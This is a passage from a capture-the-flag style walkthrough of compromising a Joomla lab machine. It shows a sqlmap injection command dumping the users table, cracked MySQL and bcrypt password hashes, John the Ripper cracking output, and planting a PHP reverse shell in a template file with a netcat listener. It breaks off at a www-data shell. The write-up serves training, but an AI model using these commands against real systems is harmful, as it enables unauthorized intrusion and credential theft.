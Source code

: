 ```
[23:46:50] [INFO] cracked password 'squires' for user 'debian-sys-maint'                                                        
database management system users password hashes:                                                                               
[*] debian-sys-maint [1]:
    password hash: *BFD14C8A23EF160EED3D54E16D4F5311264D0963
    clear-text password: squires
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *0640482736E7906211AEA47971B6C8478BA7DB4D
[*] root [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
...
```
The command I actually wanted to use dumped the info from the `#__users` table:
```
$ sqlmap -u "http://10.10.10.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C name,password --dump
...
[23:49:41] [INFO] retrieved: 'admin'
[23:49:41] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
```

I put the username and password into a file called `hash` in the format `john` expects, i.e. <user>:<hash>, and cracked the password.

```
$ echo 'admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' > pass.hash
$ john pass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
snoopy           (admin)
```
Alright, `admin:snoopy` gets us into `/administrator`. Let's look through the plugins and templates to see if we can open a reverse shell. Navigate to `http://10.10.10.8/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA%3D%3D` and you can edit `/index.php`; seems like a good place to open a reverse shell. Let's add pentestmonkey's php-reverse-shell to the script, changing the IP and port as needed.

## Gaining Access

We know about the `/templates` directory from our `gobuster` scan (also from robots.txt). The current template customization page says `Editing file "/index.php" in template "beez3".`. After running `nc -nlvp 1234` on the Attacker machine, navigate to http://10.10.10.8/templates/beez3/index.php to start the reverse shell.


## Privilege Escalation
```
$ whoami
www-data
```
